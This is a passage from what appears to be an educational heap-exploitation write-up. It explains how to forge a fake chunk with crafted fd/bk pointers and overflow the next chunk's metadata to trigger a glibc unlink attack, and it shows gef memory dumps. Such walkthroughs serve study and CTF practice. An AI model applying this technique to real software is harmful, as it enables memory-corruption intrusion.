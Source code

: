 ```
```

Here we can see two chunks of size `0xb1` (`0xa0` chunks with `0x10` bytes worth of metadata and `0x1` previous chunk in use bit set). We will store our fake chunk at `0x14fc640` and will contain the following values:

```
0x14fc640:  Previous Size   0x0
0x14fc648:  Size            0xa0
0x14fc650:  fd pointer      (0x602160 - (8*3))
0x14fc658:  bk pointer      (0x602160 - (8*2))
0x14fc660:  fd next size    0x0
```

In addition to that we will overflow the heap metadata of the next chunk (`0x14fc6f0`) with the following values:

```
0x14fc6d0:  Previous Size   0xa0
0x14fc6d8:  Size            0xb0
```

So the reason why we set the Size to `0xb0` is to clear out the previous in use bit, so malloc will think that the previous chunk has been freed (requirement for unlink). We placed a fake previous size value of `0xa0` because `0x14fc6e0 - 0xa0 = 0x14fc640` which is the start of our fake chunk. That way the previous size will point right to the start of our fake chunk (another requirement for the unlink). The reason why the `Size` for our fake chunk is set to `0xa0` is because of the `(chunksize (p) != prev_size (next_chunk (p)))` from malloc.c where it checks if the previous size of the chunk that is getting freed is the same as the chunk size of the chunk getting unlinked. I covered earlier why the values for `fd`, `bk` and `fd next size` were the values they are. After we create the fake chunk and execute the overflow, this is what the memory looks like:

```
gef➤  x/30g 0x14fc630
0x14fc630:  0x0 0xb1
0x14fc640:  0x0 0xa0
0x14fc650:  0x602148  0x602150
0x14fc660:  0x0 0x0
0x14fc670:  0x0 0x0
0x14fc680:  0x0 0x0
0x14fc690:  0x0 0x0
0x14fc6a0:  0x0 0x0
0x14fc6b0:  0x0 0x0
0x14fc6c0:  0x0 0x0
0x14fc6d0:  0x0 0x0
0x14fc6e0:  0xa0  0xb0
0x14fc6f0:  0x0 0x0
0x14fc700:  0x0 0x0
0x14fc710:  0x0 0x0
gef➤  x/4g 0x602150
0x602150: 0x14fc4e0 0x14fc590
0x602160: 0x14fc640 0x14fc6f0
gef➤  x/4g 0x602148
0x602148: 0x14fc020 0x14fc4e0
0x602158: 0x14fc590 0x14fc640
gef➤  x/10g 0x602140
0x602140: 0x0 0x14fc020
0x602150: 0x14fc4e0 0x14fc590
0x602160: 0x14fc640 0x14fc6f0
0x602170: 0x14fc7a0 0x0
0x602180: 0x0 0x0
```
